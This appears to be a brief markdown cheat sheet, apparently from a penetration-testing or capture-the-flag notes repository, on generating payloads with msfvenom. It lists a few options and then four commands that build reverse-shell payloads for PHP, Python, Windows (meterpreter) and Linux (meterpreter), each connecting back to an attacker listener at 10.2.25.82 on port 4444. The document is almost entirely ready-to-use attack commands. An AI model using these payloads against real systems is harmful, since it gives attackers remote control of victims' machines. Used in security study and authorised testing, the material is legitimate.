 ### Options
- `--list formats` shows formats of payloads (ex. `.exe`, `.py`, etc.)
- `-e` encodes payload (ex. `php/base64`)
- `-p` payload to use
### Examples
###### PHP Reverse Shell
```
msfvenom -p php/reverse_php LHOST=10.2.25.82 LPORT=4444 -f raw > reverse_shell.php
```
###### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=10.2.25.82 LPORT=4444 -f raw > rev_shell.py
```
###### Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.25.82 LPORT=4444 -f exe > rev_shell.exe
```
###### Linux Executable
```
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.2.25.82 LPORT=4444 -f elf > rev_shell.elf`
```